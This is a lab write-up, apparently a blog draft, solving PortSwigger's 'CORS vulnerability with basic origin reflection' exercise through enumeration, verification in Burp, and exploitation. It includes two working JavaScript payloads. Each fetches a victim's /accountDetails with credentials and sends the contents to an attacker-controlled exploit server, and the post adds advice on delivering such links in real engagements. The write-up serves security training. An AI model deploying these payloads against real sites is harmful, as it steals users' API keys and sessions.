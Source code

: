 ```yaml
--- 
title: "CORS Vulnerability With Basic Origin Reflection"
author: ""
date: 2024-02-27T12:45:37+01:00
description: ""
draft: true
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a6400570375230c80940876001500ca.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a6400570375230c80940876001500ca.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.  

![Enumeration](/images/cors1/01-enumerate-index-route.png "Enumeration")  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain and observe the response reflected the `Access-Control-Allow-Origin` arbitrary domain value.   

![Exploration](/images/cors1/02-explore-abitrary-domain-as-origin.png "Exploration") 

#### Exploitation
Now exploit yourself while logged in with the below script.
```shell
<html lang="en">
<body>
  <script>
    function exploitCORS(appURL, exploitServer) {
      fetch(appURL, { credentials: 'include' })
      .then(response => response.text())
      .then(data => {
        fetch(exploitServer + data)
      })
      .catch(error => alert('Error fetching page: ' + error));
    }
    exploitCORS(
      'https://0a6400570375230c80940876001500ca.web-security-academy.net/accountDetails',
      'http://localhost:8000/?log='
    );
  </script>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed. You can also use to above script to exploit the administrator after changing the exploit server to portswigger's.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post or even emailed to them.  
```shell
<html lang="en">
<body>
  <script>
    var appServer = 'https://0a6400570375230c80940876001500ca.web-security-academy.net'
    var exploitServer = 'https://exploit-0a91002e0313235d80ad0765011300a1.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](/images/cors1/03-exploit-abitrary-domain-as-origin.png "Exploitation") 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](/images/cors1/04-exfiltrate-abitrary-domain-as-origin-spoil.png "Exfiltration") 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22a0IydfTG1C1PHw7fgY4eoY6FcVVKvRGm%22,%20%20%22sessions%22:%20[%20%20%20%20%222fbOjlD7InD7crx0XK3djXJhrjlfZiyA%22%20%20]%7D' | jq . | tee cors-vulnerability-with-basic-origin-reflection-spoil.json
```  

![Solution](/images/cors1/05-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack
- https://github.com/knoxknot/portswigger/tree/main/cors/01-cors-vulnerability-with-basic-origin-reflection